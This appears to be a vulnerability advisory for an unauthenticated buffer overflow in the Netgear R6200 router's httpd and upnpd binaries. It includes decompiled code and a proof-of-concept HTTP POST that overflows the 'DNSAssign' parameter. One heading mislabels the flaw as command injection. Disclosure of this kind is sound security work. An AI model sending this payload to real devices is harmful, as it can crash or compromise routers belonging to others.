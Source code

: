 # Buffer Overflow Vulnerability in `wan_dns_sel`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6200 Router                                         |
| Firmware Version     | V1.0.1.58_1.0.44                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`blkCgi_fix`) → `upnpd` (`sub_40DACC`) (cross-binary data flow via `wan_dns_sel`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameter `DNSAssign` |

2. Exploitation Path

```c
// httpd
int __fastcall blkCgi_fix(char *a1, int a2)
{
  ...
  char v21[256]; // [sp+37Ch] [-304h] BYREF
  ...
  websGetVar(a1, "DNSAssign", v21);
  acosNvramConfig_set("wan_dns_sel", v21);
  ...
}

// upnpd
int __fastcall sub_40DACC(int a1, int a2, _DWORD *a3)
{
  ...
  char v17[20]; // [sp+3Ch] [-DCh] BYREF
  char v18[100]; // [sp+50h] [-C8h] BYREF
  ...
  if ( acosNvramConfig_invmatch("ParentalControl", "1") )
  {
    v12 = (const char *)acosNvramConfig_get("wan_dns_sel");
    strcpy(v18, v12);
    ...
}
```

3. **Vulnerable Binaries:** The vulnerabilities are located in the `httpd` and `upnpd` binaries, with taint propagation occurring across these binaries.

4. 0-Day Command Injection Exploitation Path: In the `httpd` binary, the `blkCgi_fix` function at line 7 invokes `websGetVar(a1, "DNSAssign", v21)` to receive input data. Although a 255-byte length limit is enforced at this point, no additional length validation is applied. The input is then stored temporarily via `acosNvramConfig_set("wan_dns_sel", v21)` at line 8. Subsequently, in the `upnpd` binary, the `sub_40DACC` function reads this intermediate storage at line 21 through `v12 = (const char *)acosNvramConfig_get("wan_dns_sel")`. Finally, at line 22, the data is copied into the destination buffer using `strcpy(v18, v12)`, where the buffer `v18` has a size of 100 bytes, resulting in a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/blkCgi_fix HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: close

DNSAssign=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```